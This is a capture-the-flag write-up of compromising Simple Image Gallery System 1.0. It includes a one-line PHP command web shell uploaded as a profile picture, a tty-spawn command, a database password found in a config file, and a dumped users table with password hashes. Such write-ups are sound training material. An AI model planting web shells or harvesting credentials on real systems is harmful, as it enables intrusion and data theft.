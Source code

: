 
Simple Image Gallery System 1.0 a quick google search and we know it vulnerable to SQL injection and RCE but seems we register a user let hit the RCE.

![image](https://user-images.githubusercontent.com/69868171/130989082-9895fcc0-b654-49de-8586-fdbf85519938.png)

So i decided to upload a php command injection code on the profile picture page.

```
┌──(muzec㉿Muzec-Security)-[~/Desktop/CTFPlayground/ABC/ABCWriteup]
└─$ cat shell.php     
<?php system ($_GET['cmd']) ?>
```

![image](https://user-images.githubusercontent.com/69868171/130989389-4e022a96-aa68-452e-ba4f-5e36fd69b1f6.png)

Boom we have command injection now let get a reverse shell.

![image](https://user-images.githubusercontent.com/69868171/130993445-f55af863-e5c6-43f1-b8f6-5045fd3d0aef.png)

Checking our Ncat listener back.

![image](https://user-images.githubusercontent.com/69868171/130993509-35986298-2869-4e89-a2f0-0a42ed060a37.png)

Now let spawn a tty shell.

```
python3 -c 'import pty; pty.spawn ("/bin/bash")'
```

Now let enumerate more on the target using `linpeas.sh` .

![image](https://user-images.githubusercontent.com/69868171/130996588-77e17f72-bc85-469b-a211-5566fd41fc5c.png)

```
/var/www/html/gallery/initialize.php:if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"forthedubs");                                                                   
```

```
/var/www/html/gallery/initialize.php:if(!defined('DB_USERNAME')) define('DB_USERNAME',"www-data");                                                                     
```

Ahhh we have some credential for the database let try it on mysql.

![image](https://user-images.githubusercontent.com/69868171/130998271-8f85d294-9e3b-4520-8095-d414f4e72976.png)

We are in.

![image](https://user-images.githubusercontent.com/69868171/130998467-bb9593af-3592-45d6-afd8-7f88549e5478.png)

```
mysql> SELECT * from users;
SELECT * from users;
+----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+-------------------
--+---------------------+
| id | firstname    | lastname | username | password                         | avatar                                          | last_login | type | date_added        
  | date_updated        |
+----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+-------------------
--+---------------------+
|  1 | Adminstrator | Admin    | admin    | 0192023a7bbd73250516f069df18b500 | uploads/1629675420_TagorbnpwmgzgrsorojLetta.php | NULL       |    1 | 2021-01-20 14:02:3
7 | 2021-08-22 23:37:40 |
|  2 | Jane         | Doe      | abcctf   | zburhWD2B7PqTx6sVfVszBE3KhgCqT   | uploads/1624240500_avatar.png                   | NULL       |    1 | 2021-01-20 14:02:3
7 | 2021-06-21 09:55:07 |
```